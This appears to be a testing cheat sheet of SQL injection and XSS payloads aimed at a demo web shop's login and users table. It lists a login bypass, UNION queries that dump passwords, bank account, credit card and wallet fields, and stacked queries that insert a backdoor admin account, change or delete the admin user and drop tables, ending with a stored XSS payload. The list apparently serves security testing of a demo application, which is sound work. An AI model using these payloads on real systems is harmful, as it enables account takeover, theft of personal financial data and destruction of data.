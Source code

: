 ########## SQLi TESTING ##########

Username for login as first available user
' OR '1'='1
' OR '1'='1' --

Login exploit know the username
' OR username='admin' --
' OR username = 'wick.johnathan'--

Get db version
' UNION SELECT 1, version(), 'x', 'x', 'x', 'x', '2000-01-01', 'x', 'x', 'x', 'x', 0.0, 'x', 'x', 0 --

Get db name
' UNION SELECT 1, database(), 'x', 'x', 'x', 'x', '2000-01-01', 'x', 'x', 'x', 'x', 0.0, 'x', 'x', 0 --

Get current mysql user (root@localhost)
' UNION SELECT 1, user(), 'x', 'x', 'x', 'x', '2000-01-01', 'x', 'x', 'x', 'x', 0.0, 'x', 'x', 0 --

Extract all columns from user table
' UNION SELECT id, username, password, full_name, email, phone_number, date_of_birth, shipping_address, bank_account_number, credit_card_number, paypal_info, wallet_amount, wallet_password, bought_items, is_admin FROM users --

Show all users
' OR '1'='1' --

----- Multiple Statements:

Backdoor creation
'; INSERT INTO users(username, password, is_admin) VALUES('hacker', 'pass123', 1);--

Modify or delete data
'; UPDATE users SET password='newpass' WHERE username='admin';--

'; DELETE FROM users WHERE username='admin';--
'; DROP TABLE users;--

Create or modify database objects
'; CREATE TABLE backdoor(id INT PRIMARY KEY, secret VARCHAR(100));--

########## XSS TESTING ##########
Persistent XSS attempt in demo
'<a href="#" onclick="alert(''XSS Executed!''); return false;">Click me!</a>'
